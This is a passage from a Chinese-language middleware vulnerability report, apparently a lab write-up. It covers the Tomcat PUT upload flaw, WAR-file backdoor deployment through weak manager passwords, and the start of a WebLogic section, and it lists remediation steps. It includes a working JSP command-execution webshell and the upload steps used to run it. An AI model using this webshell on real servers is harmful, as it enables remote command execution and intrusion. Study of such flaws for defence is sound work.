 4. 访问127.0.0.1：8080，burp抓包，send to Repeater，将请求方式改为PUT，创建一个122.jsp，并用%20转义空格字符。123.jsp内容为：`<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>`
     返回201，说明创建成功。

      ![img](中间件漏洞总结报告.assets/4-22.png)

5. 访问`127.0.0.1：8080/122.jsp?cmd=calc`，弹出计算器

**修复**

- 检测当前版本是否在影响范围内，并禁用PUT方法。

- 更新并升级至最新版。

### 2.war后门文件部署

**成因**

Tomcat 支持在后台部署war文件，可以直接将`webshell`部署到web目录下。

若后台管理页面存在弱口令，则可以通过爆破获取密码。

**修复**

- 在系统上以低权限运行Tomcat应用程序。创建一个专门的 Tomcat服务用户，该用户只能拥有一组最小权限（例如不允许远程登录）。
- 增加对于本地和基于证书的身份验证，部署账户锁定机制（对于集中式认证，目录服务也要做相应配置）。在`CATALINA_HOME/conf/web.xml`文件设置锁定机制和时间超时限制。
- 以及针对`manager-gui/manager-status/manager-script`等目录页面设置最小权限访问限制。
- 后台管理避免弱口令。

## 0x05-WebLogic漏洞分析

- WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。


### 1.反序列化漏洞
